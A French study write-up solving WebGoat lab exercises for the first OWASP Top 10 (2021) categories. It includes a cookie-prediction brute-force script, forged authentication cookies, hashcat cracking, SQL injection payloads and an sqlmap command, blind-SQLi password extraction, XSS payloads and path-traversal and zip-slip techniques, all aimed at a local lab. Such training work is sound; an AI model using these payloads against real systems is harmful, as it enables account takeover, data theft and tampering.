# Découverte OWASP

# **Découverte des vulnérabilités référencées par l’OWASP**

Dans ce document nous découvrirons un ensemble de vulnérabilités classées par l’OWASP et leur détection dans le cadre d’un « pen-testing ».

L'OWASP (Open Worldwide Application Security Project) est une association mettant en avant les différentes failles connues sur les applications (principalement web) et les moyens de s'en protéger. L'organisme effectue un classement régulier des vulnérabilités les plus exploitées sur Internet pour former les testeurs de sécurité à leur détection et les développeurs à leur compréhension et à la correction du code.

L'OWASP propose divers projets, et nous nous intéresserons ici au sujet principal : le classement des **10 vulnérabilités les plus exploitées sur Internet**. Pour effectuer cette étude, nous nous baserons sur le site officiel de l'OWASP et sur une application répertoriant des exemples des différents types de vulnérabilités étudiées. L’application WebGoat est ainsi développée par l’OWASP pour comprendre les différents types de vulnérabilités et leurs impacts.

Nous travaillerons ainsi sur les **5 premières vulnérabilités** du top 10 de l'OWASP (version 2021, car ce classement est actualisé tous les 4 ans).

**Les vulnérabilités de l’OWASP**

L'OWASP classe les vulnérabilités en catégories spécifiques :

- **A01:2021 - Broken Access Control**
- **A02:2021 - Cryptographic Failures**
- **A03:2021 - Injection**
- **A05:2021 - Security Misconfiguration**

    Chacune de ces catégories correspond à un ensemble de « faiblesses » **CWE (Common Weakness Enumeration)** qui définissent des causes probables de vulnérabilités futures.

L'organisation à but non lucratif **MITRE** est à l'origine des classifications des différentes faiblesses, dans le but de définir les vulnérabilités connues à surveiller en urgence : les **CVE (Common Vulnerability and Exposure / Common Vulnerability Enumeration)**.


>En 1999, MITRE a établi une classification des menaces permettant de se protéger et de configurer les équipements IDS pour prévenir l'exploitation des menaces récentes sur les systèmes d'information.

- Les CVE possèdent un identifiant unique permettant de retrouver une vulnérabilité et un contexte précis d’exploitation (version du programme touché, système d’exploitation touché, CWE liées à ce type de vulnérabilité, risques encourus)
- Les CWE classent de manière générique les types de vulnérabilité et leurs impacts sur les systèmes touchés.

Ce document n’étant pas un remplaçant du site officiel de l’OWASP, celui-ci devra être utilisé tout au long de l’étude pour comprendre les différentes implications des vulnérabilité et faiblesses étudiées.

Nous étudierons ici les outils utiles à la réalisation des test effectués dans l’application WebGoat. Ainsi que quelques astuces vous permettant de progresser dans cet apprentissage.

Installation de l’application WebGoat

J’utiliserais ici l’application dans un conteneur sur une machine Kali Linux pour avoir à portée de main les différents outils permettant de tester mon application.

```bash
apt install docker.io
docker pull webgoat/webgoat
docker create -ti —name webgoat -p 8080:8080 -p 9090:9090 -e TZ=Europe/Paris webgoat/webgoat

```

Pour les premières leçons de l’application WebGoat, vous aurez besoin d’utiliser les outils de développeur de votre navigateur, en appuyant sur la touche f12 de votre clavier une partie outils développeurs apparaît sur la page.



1. (A1) Broken Access Control
    
    <aside>
    
    *Hijack a session*
    
    > Le session Hijacking est le fait de voler la session d’un autre utilisateur, il repose la plupart du temps sur l’utilisation d’un moyen d’authentification autre que le nom et le mot de passe de l’utilisateur (comme un cookie d’authentification).
    >
    <details>
    <summary>- Hijack a session - 5</summary>
        
   Dans la partie storage vous trouverez les cookies liés à la page sur laquelle vous vous connectez. Pour la première leçon (Hijack a session) il s’agit de deviner le cookie d’un utilisateur.
        
   Pour réaliser ce challenge je note le cookie récupéré par l’utilisateur julien :
   >    
   > 🍪  Hijack_cookie : 999666930232324123-1739829095375 
   >    
        Puis je supprime le cookie et remplie à nouveau le formulaire pour comparer son cookie :
        
        <aside>
        🍪
        
        Hijack_cookie : 999666930232324124-1739829895548
        
        </aside>
        
        En répétant l’opération à de multiple reprises je remarque que certains numéros sont sautés pour le premier nombre. Un cookie a donc été donné à un autre utilisateur, je peux donc utiliser cette valeur comme base pour trouver le cookie de l’utilisateur. En effectuant une recherche sur internet sur la deuxième valeur je constate qu’il s’agit d’un timestamp depuis l’époque unix (1 janvier 1970). Je peux donc tenter la première valeur trouvée en réduisant le timestamp d’une unité depuis que le cookie à été trouvé. En procédant ainsi je suis sûr de pouvoir trouver le cookie d’un utilisateur. Je pourrais donc utiliser le script suivant pour trouver le cookie à coup sûr :
        
        ```bash
        #!/bin/bash
        if [[ -z $1 ]] || [[ -z $2 ]] || [[ -z $3 ]] || [[ -z $4 ]] || [[ -z $5 ]] || [[ -z $6 ]] ; then { 
          echo "donner la valeur du jeton JSESSIONID, votre nom d'utilisateur et votre mot de passe"
        	echo "-s JSESSIONID"
        	echo "-u username"
        	echo "-p password"
        	echo "Usage: $0 -u julien -p poseidon -s sLdOKMWBs9rchRluZGhTFgRw6sNEaA5m94hdDSxs"
        	exit 1
        }
        fi
        options="$1 $3 $5"
        case $options in
        	"-s -u -p")
        			session=$2
        			user=$4
        			password=$6
        			;;
        	"-s -p -u")
        			session=$2
        			user=$6
        			password=$4
        			;;
        	"-u -s -p")
        			session=$4
        			user=$2
        			password=$6
        			;;
        	"-u -p -s")
        			session=$6
        			user=$2
        			password=$4
        			;;
        	"-p -s -u")
        			session=$4
        			user=$6
        			password=$2
        			;;
        	"-p -u -s")
        			session=$6
        			user=$4
        			password=$2
        			;;
        	*)
        			echo "donner la valeur du jeton JSESSIONID, votre nom d'utilisateur et votre mot de passe"
        			echo "-s JSESSIONID"
        			echo "-u username"
        			echo "-p password"
        			echo "Usage: $0 -u julien -p poseidon -s sLdOKMWBs9rchRluZGhTFgRw6sNEaA5m94hdDSxs"
        			exit 1
        			;;
        esac
        a=0
        jsession=$(curl -si "http://127.0.0.1:8080/WebGoat/login" -d "username=$user&password=$password" -v 2> /dev/null | grep JSESSIONID | cut -d "=" -f 2 | cut -d ";" -f 1)
        while true; do {
        	hijack1=$(curl -si "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=$user&password=password" -b "JSESSIONID=$jsession" -L -v 2> /dev/null| grep hijack_cookie | cut -d "=" -f 2 | cut -d ";" -f 1)
        	#echo "session=$jsession"
        	#echo "cookie=$hijack1"
        	current=$(echo $hijack1 | cut -d "-" -f 1)
        	if (($a != 0 )); then {
        		if [[ $current != $predict ]]; then {
        			echo "actuel: $current, prévu: $predict"
        			time=$(echo $hijack1 | cut -d "-" -f 2)
        			for ((i=0;i<30;i++)); do {
        				jsession=$session
        				time=$(($time - 1))
        				hijack2="$predict-$time"
        				curl "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=jul&password=posei" -b "JSESSIONID=$jsession" -b "hijack_cookie=$hijack2" -L -v 2> /dev/null | grep Sorry > /dev/null
        				if (( $? != 0 )); then {
        					echo "bingo: $hijack2"
        					curl "http://127.0.0.1:8080/WebGoat/HijackSession/login" -d "username=jul&password=posei" -b "JSESSIONID=$jsession" -b "hijack_cookie=$hijack2" -L
        					break
        				}
        				fi
        			}
        			done
        			break
        		}
        		fi
        	}
        	fi
        	predict=$(($current + 1))
        	a=1
        }
        done
        ```
        
        Le script se connecte au serveur avec les identifiants entrés à l’exécution puis récupère un hijack_cookie auprès du serveur, il incrémente ensuite le permier nombre pour prédire la valeur du prochain cookie. Si le prochain cookie possède la valeur prévue il recommence l’opération jusqu’à ce que le cookie obtenu ne soit pas celui qui était prévu. A partir du moment ou ce cookie est identifié on décrémente la valeur du deuxième nombre (le timestamp) d’une unité pour trouver le cookie attendu.
        
        L’opération est répétée une trentaine de fois ce qui était suffisant lors de mes tests.
        
    </aside>
    </details>    
    <aside>
    
    *Insecure Direct Object Reference*
    
    > L’IDOR est un type de vulnérabilité permettant à un attaquant d’utiliser une information propre à un utilisateur pour pouvoir accéder aux données d’autres utilisateurs ( il s’agit la plupart du temps d’un identifiant lié à l’utilisateur connecté).
    > 
    
    > Pour cette partie  j’utiliserais le logiciel ZAP (Zed Attack Proxy) créé par l’OWASP. Ce logiciel agit comme serveur proxy et permet d’intercepter les connexions pour les analyser, ou les répéter avec des paramètres différents. Je serais ainsi capable de modifier les requêtes et pour tromper le serveur web sur lequel je me connecte.
    > 
    > 
    > Une fois lancé j’utiliserai le navigateur intégré à Zaproxy pour me connecter à webgoat.
    > 
    > 
    > 
    - Insecure Direct Object References - 3
        
        Dans zap je peux observer la réponse reçue :
        
        
        
    - Insecure Direct Object References - 5 part 1
        
        je récupère la requête avec zap et la répète pour en modifier le contenu :
        
        
        
        Je choisirais Open/Resend with Request Editor pour modifier la requête :
        
        
        
        Puis en testant plusieurs identifiant utilisateurs en décrémentant et incrémentant l’identifiant de tom je trouve celui de l’utilisateur Buffalo Bill.
        
    - Insecure Direct Object References - 5 part 2
        
        Pour la dernière partie l’objectif étant de modifier la requête http nous devons trouver un moyen d’envoyer des modifications, je modifie donc la méthode de la requête http :
        
        
        
        Ici la méthode POST n’est pas autorisée mais je découvre 2 méthodes : PUT et GET qui sont autorisées. Je teste donc avec la méthode PUT :
        
        
        
        Cette fois le media-type n’est pas autorisé mais le content-type est application/json, je le modifie donc et tente d’envoyer les modifications demandées :
        
        
        
        Le profile de l’utilisateur Buffalo Bill est modifié.
        
    </aside>
    
    <aside>
    
    *Missing Function Level Access Control*
    
    > Il s’agit toutes les fonctions, autres que l’IDOR. Permettant à un utilisateur d’obtenir des accès au données ou aux droits d’autres utilisateurs.
    > 
    - Missing Function Level Access Control - 2
        
        Nous devons trouver un menu caché, pour cela nous pouvons utiliser les outils développeurs web du navigateur:
        
        
        
        Nous découvrirons ici 2 catégories cachées dans la page (attention elles sont sensibles à la casse)
        
    - Missing Function Level Access Control - 3
        
        En utilisant à nouveau zaproxy je tente de faire un get sur la page users trouvée précédemment 
        
        
        
        A nouveau le type d’application ne semble pas correspondre (je modifierais pour application/json :
        
        
        
        La liste des utilisateurs récupérée j’obtiens le hash de l’utilisateur jerry.
        
    - Missing Function Level Access Control - 4
        
        Dans la dernière partie les développeurs ont corrigé le problème en autorisant seulement les administrateurs à accéder aux informations. J’utiliserais donc une technique semblable à celle utilisée dans la leçon sur l’IDOR pour obtenir les droits administrateurs :
        
        
        
        La requête semble fonctionner mais le password n’est pas pris en compte :
        
        
        
        N’ayant pas d’accès à la page users-admin-fix je passe le compte julien que j’utilise pour effectuer l’élévation de privilèges :
        
        
        
        La page users-admin-fix devient accessible :
        
        
        
    </aside>
    
    <aside>
    
    *Spoofing an Authentication Cookie*
    
    > Dans cette partie il s’agira de deviner la méthode utilisée pour créer des cookies d’authentification et de l’utiliser pour se créer un cookie valable pour se connecter avec les droits d’un autre utilisateur.
    > 
    - Spoofing an Authentication Cookie - 2
        
        J’observe le cookie spoof_auth obtenu et remarque qu’il semble être en encodage base64, je tente donc de le décoder :
        
        ```bash
        echo "NDM2YzdhNTU3NzYxNTk0ZjY3NzA3NDYxNmY2NzYyNjU3Nw==" | base64 -d
        436c7a557761594f677074616f67626577
        ```
        
        Le résultat semble être un code hexadécimal :
        
        ```bash
        echo 436c7a557761594f677074616f67626577 | xxd -r -p
        ClzUwaYOgptaogbew
        ```
        
        J’observe la présence du login/motdepasse présent dans la chaîne de caractère produite en inversé :
        
        ```bash
        echo 436c7a557761594f677074616f67626577 | xxd -r -p | rev
        webgoatpgOYawUzlC
        ```
        
        Je vérifie avec le login admin et constate le même résultat, il me suffit donc d’inverser le procéder pour créer un cookie pour n’importe quel utilisateur dont je connais le login :
        
        ```bash
        echo -n tompgOYawUzlC | rev | xxd -p | base64 NDM2YzdhNTU3NzYxNTk0ZjY3NzA2ZDZmNzQK
        ```
        
        Suite à différents test je me rend compte qu’un retour à la ligne corromps la chaîne de caractère je supprime donc le retour à la ligne avant d’encoder en base64 :
        
        ```bash
        echo -n "tompgOYawUzlC" | rev | xxd -p| tr -d '\n'|base64
        NDM2YzdhNTU3NzYxNTk0ZjY3NzA2ZDZmNzQ=
        ```
        
    </aside>
    
2. (A2) Cryptographic Failures
    
    <aside>
    
    *Crypto Basics*
    
    > Les méthodes de chiffrement, encodage, et hachage sont couramment utilisées par les application pour authentifier les utilisateurs , transmettre leurs données et les sécuriser. Pourtant les méthodes utilisée peuvent ne pas être adaptées et conduire à une compromission des données. De même les technologies utilisées doivent faire l’objet d’une veille constante et être mises à jour dès que nécessaire.
    > 
    - Crypto Basics - 3
        
        J’utiliserai CyberChef sur internet :
        
        
        
        Ici je tente de bruteforcer le ou exclusif pour récupérer le mot de passe après avoir décoder les caractères en base64. En effet l’opération « ou exclusif » s’exécute en binaire et peut convertir certains caractères dans des code binaire non interprétables par un terminal, le résultat de l’opération est donc encodé en base64(attention le mot de passe trouvé n’est pas dans la casse attendue par le formulaire).
        
    - Crypto Basics - 4
        
        je choisirais ici le programme hashcat pour pouvoir cracker le hash proposé :
        
        ```bash
        hashid -m '21232F297A57A5A743894A0E4A801FC3'
        hashcat -m 0 '21232F297A57A5A743894A0E4A801FC3' /usr/share/wordlists/rockyou.txt 
        ```
        
        ```bash
        hashid -m '8F0E2F76E22B43E2855189877E7DC1E1E7D98C226C95DB247CD1D547928334A9'
        hashcat -m 1400 '8F0E2F76E22B43E2855189877E7DC1E1E7D98C226C95DB247CD1D547928334A9' /usr/share/wordlists/rockyou.txt
        
        ```
        
    - Crypto Basics - 6
        
        J’ enregistre la clé privée donnée dans fichier nommé private.rsa , puis je génère une clé publique correspondante :
        
        ```bash
        openssl rsa -in private.rsa -pubout > pub.rsa
        ```
        
        depuis la clé publique j’extrait le modulus :
        
        ```bash
        openssl rsa -in pub.rsa -pubin -modulus -noout | cut -d "=" -f 2 > modulus.txt
        ```
        
        puis je sign le modulus en sha256 en utilisant la clé privée :
        
        ```bash
        cat modulus.txt | tr -d '\n' | openssl dgst -sha256 -sign private.rsa | base64
        ```
        
    - Crypto Basics - 8
        
        J’extrais le fichier shadow du conteneur pour obtenir le droit d’accès sur le fichier puis je déchiffre le message grâce à la passphrase :
        
        ```bash
        docker cp youthful_hodgkin:/etc/shadow .
        pass=$(openssl passwd -6 poseidon) && sed -i "/root/ s/\*/$pass/" shadow
        docker cp shadow youthful_hodgkin:/etc/shadow
        docker exec -ti youthful_hodgkin bash
        su –
        cat default_secret
        echo "U2FsdGVkX199jgh5oANElFdtCxIEvdEvciLi+v+5loE+VCuy6Ii0b+5byb5DXp32RPmT02Ek1p f55ctQN+DHbwCPiVRfFQamDmbHBUpD7as=" | openssl enc -aes-256-cbc -d -a -k ThisIsMySecretPassw0rdF0rY0u
        
        ```
        
    </aside>
    
3. (A3) Injection
    
    <aside>
    
    *SQL Injection (intro)*
    
    > L’injection SQL est un type de vulnérabilité permettant à un attaquant de sortir du cadre prévu par l’application pour interroger sa base de données. Il devient possible (la plupart du temps par le biais de formulaires html dont les entrées ne sont pas assez restrictives) d’accéder à d’autres informations stockées dans la base de donnée, voir de les modifier.
    > 
    - SQL Injection (intro) - 10
        
        Après différents essais le champs login_count ne semble pas vulnérable aux injections SQL, mais User_Id peut être injecté :
        
        
        
    - SQL Injection (intro) - 11
        
        Le même principe est utilisable dans cette leçon en utilisant les commentaires sql :
        
        
        
    - SQL Injection (intro) - 12
        
        Nous utiliserons le même concept mais en ajoutant cette fois une commande de mise à jour de la table :
        
        ```sql
        'update employees set salary=91000 where userid=37648; --
        ```
        
    - SQL Injection (intro) - 13
        
        Nous utiliserons le même principe d’enchaînement des requêtes pour supprimer la table des logs :
        
        
        
    </aside>
    
    <aside>
    
    *SQL Injection (advanced)*
    
    - SQL Injection (advanced) - 3
        
        ```sql
        ';select * from user_system_data; --
        ```
        
        En essayant de réaliser l’injection suivante :
        
        ```sql
        ' union select password from user_system_data –
        ```
        
        Je remarque que le nombre de colonnes ne correspond pas :
        
        
        
        Il faudra donc faire correspondre le nombre de colonne de la deuxième requête avec la première (une * donc toutes les colonnes de la première table) :
        
        ```sql
        ' union select null,password,user_name,null,null,null,null from user_system_data –
        ```
        
        
        
    - SQL Injection (advanced) - 5
        
        J’utiliserais l’outil sqlmap pour tester les différents types d’injection sql disponibles, après avoir testé les pages challenge_login et challenge deux injection sont possibles sur le paramètre username_reg :
        
        ```bash
        sqlmap -u http://127.0.0.1:8080/WebGoat/SqlInjectionAdvanced/challenge --data="username_reg=test&email_reg=bob%40mail.com&password_reg=po&confirm_p assword_reg=test" --cookie="JSESSIONID=0txqnMhhofk6DP1OdGeKIItd8yPCW95jNQUolcwn" --method PUT --level 5 --risk 3 -p username_reg
        ```
        
        
        
        En utilisant la technique boolean-based blind j’arrive à déterminer si une requête sql obtient une réponse positive ou non :
        
        
        
        Ici le résultat de la requête n’est pas considérée comme vraie , il n’y a donc pas de conflit avec un utilisateur existant, le système considère qu’il peut créer le compte.
        
        En effectuant un test avec les différentes lettres je trouve celle-ci :
        
        
        
        Cette fois le retour de la requête est positif, la première lettre du mot de passe est un t. Il suffit dont de tester les différentes lettres pour trouver le mot de passe complet.
        
        Pour cela j’utiliserais le programme burpsuite en forçant les caractères à utiliser dans ce paramètre. La fonctionnalité intruder de burp permettra d’effectuer cette manipulation.
        
        Burp joue le rôle de proxy tout comme zap et je l’utiliserais dans un premier temps pour capturer le trafique envoyé par mon navigateur (attention de bien gérer les paramètres de proxy du navigateur, les ports à utiliser puisque WebGoat utilise le port 8080 qui est aussi celui par défaut de burp, de plus il faut penser que le navigateur n’utilise pas de proxy pour se connecter à une adresse en 127.0.0.1, il faudra donc utiliser l’adresse IP de la machine hôte pour pouvoir se connecter à l’interface de webgoat).
        
        
        
        Je choisi ensuite d’envoyer cette requête vers l’intruder :
        
        
        
        Puis je modifie la requête pour envoyer différents paramètres à la chaîne :
        
        
        
        Le paramètre username_reg test ici si la longueur du mot de passe est égale à num (ce qui ne peut pas être vrai puisqu’on fait ici une comparaison entre un entier et une chaîne de caractères. Attention pour que la requête puisse être envoyée il faudra convertir la valeur du paramètre en encodage url :
        
        
        
        Et il ne reste plus qu’a sélectionner le paramètre à tester en choisissant « add payload position »:
        
        
        
        Un panneau de paramétrage de la payload apparaît, je choisis des nombres à incrémenter de 1 entre 1 et 50 pour déterminer la longueur du mot de passe de tom :
        
        
        
        Dans la partie settings j’ajoute un Grep – Match avec une expression présente dans la réponse à ma requête si le résultat est vrai (User {0} already exists …), je choisi ici le mot exists :
        
        
        
        Il ne me reste plus qu’à lancer l’attaque et à observer la colonne exists :
        
        
        
        Le mot de passe à donc 23 caractères.
        
        Il est possible cumuler deux payload avec burp intruder pour tester les différentes combinaisons de caractères pour la première lettre du mot de passe, puis toutes les combinaisons de caractères pour la deuxième lettre et ainsi de suite pour les 23 caractères du mot de passe. Pour cela je choisi un type d’attaque Cluster bomb attack, puis je désigne la partie position de substring comme étant un nombre incrémenté de 1 entre 1 et 23 :
        
        
        
        Je paramètre ensuite la deuxième payload comme étant un caractère entre a et z (ma requête analyse seulement les caractères en minuscule pour gagner du temps, il sera ensuite possible de tester la casse une fois le mot de passe connu) :
        
        
        
        Il n’y a plus qu’a lancer l’attaque et voir si nous récupérons une partie des 23 caractères (si certains caractères manquent nous pourrons tester les caractères spéciaux et nombres) :
        
        
        
        Quand l’attaque est finie nous optenons le mot de passe :
        
        thisisasecretfortomonly
        
    </aside>
    
    <aside>
    
    *Cross Site Scripting*
    
    > Le XSS (Cross Site Scripting), consiste à injecter (la plupart du temps dans un formulaire, mais l’injection pourrais aussi se faire dans les entêtes html, les cookies etc.) un script javascript exécuté sur la machine d’un client. Il est ainsi possible d’exécuter du code sur la machine d’un autre utilisateur se connectant au site vulnérable. La plupart du temps le code exécuté sur la machine de la victime visera à lui voler des informations d’authentification stockées dans les cookies par exemple.
    On distinguera ici les XSS nécessitant de tromper l’utilisateur en lui envoyant un lien générant du code malveillant et une Stored XSS étant stockée dans la base de donnée du server, ou ses fichiers.
    > 
    - Cross Site Scripting - 7
        
        Nous pouvons tester d’envoyer le code :
        
        ```jsx
        <script> alert("hello")</script>
        ```
        
        Dans les différentes parties du formulaire. Si une fenêtre apparaît en indiquant le message hello, vous avez trouvé le champ vulnérable.
        
    - Cross Site Scripting - 10
        
        en analysant le code GoatRouter.js dans la partie debugger de la console developer du navigateur on trouve une route test
        
    - Cross Site Scripting - 11
        
        en allant dans un nouvel onglet et en appelant :
        [http://192.168.189.50:8080/WebGoat/start.mvc?username=julien#test](http://192.168.189.50:8080/WebGoat/start.mvc?username=julien#test/)/%3Cscript%3Ewebgoat.customjs.phoneHome%28%29%3C%2Fscript%3E
        
        Un message contenant un numéro s’affiche dans la console du navigateur
        
        Le message envoyé à la route test est :
        
        ```jsx
        <script>webgoat.customjs.phoneHome()</script>
        ```
        
        Mais les caractères spéciaux sont encodés pour être correctement interprétés par le navigateur.
        
    </aside>
    
    <aside>
    
    *Cross Site Scripting (stored)*
    
    - Cross Site Scripting (stored) - 3
        
        Nous pourrons directement inclure notre payload sans avoir besoin de l’encoder, cette fois la payload est sauvegardée dans les données du site (certainement dans une base de donnée) et dès qu’un utilisateur accède à la page le script est exécuté.
        
    </aside>
    
    <aside>
    
    *Path traversal*
    
    > La Path traversal est un type de vulnérabilité permettant à l'attaquant de changer l’endroit ou les données d’un serveur web sont lues ou écrites. Il devient ainsi possible pour l’attaquant de lire des fichiers qui n’appartiennent pas au champs de l’application concernée, voir de modifier des fichiers systèmes.
    > 
    - Path traversal - 2
        
        Nous devons envoyer une image sur le serveur lorsque le formulaire est utilisé normalement nous avons :
        
        
        
        On peut remarque que le nom choisi apparaît dans le chemin de stockage de l’image, nous pouvons influer sur le chemin en changeant le nom pour ../hello
        
    - Path traversal - 4
        
        Le problème à ici été corrigé.
        Le nom n’apparaît plus dans le chemin de stockage de l’image, mais le nom de l’image lui-même est utilisé tel quel. Nous pouvons donc modifier le nom de l’image pour choisir sa destination. J’utiliserais ici la fonction répéteur de burp pour modifier le nom de l’image :
        
        
        
    - Path traversal - 5
        
        En analysant les requêtes avec burp on trouve l’url :
        
        le paramètre id=10 permet d’exploiter un path traversal à l’aide d’encodage url : 
        
        ```bash
        /WebGoat/PathTraversal/random-picture?id=%2e%2e%2f%2e%2e%2fpath-traversal-secret
        ```
        
        Le .jpg est ajouté automatiquement à chaque requête
        
    - Path traversal - 7
        
        Pour cette dernière partie le chemin de l’image qui est contenu dans le fichier zip doit contenir le path traversal. Ici il faudra recréer le chemin que nous voulons écraser : mkdir -p challenge7/home/webgoat/.webgoat-2023.8/PathTraversal/julien/ copier une image dans le dernier répertoire
        
        ```bash
        ls challenge7/home/webgoat/.webgoat-2023.8/PathTraversal/julien/
        image.jpg
        puis rentrer dans deux niveaux de répertoires :
        cd challenge7/home
        enfin compresser l’image avec un chemin relatif :
        zip file.zip ../../home/webgoat/.webgoat-2023.8/PathTraversal/julien/image.jpg
        ```
        
        En envoyant le fichier zip l’image extraite le sera à l’endroit choisi !
        
    </aside> 
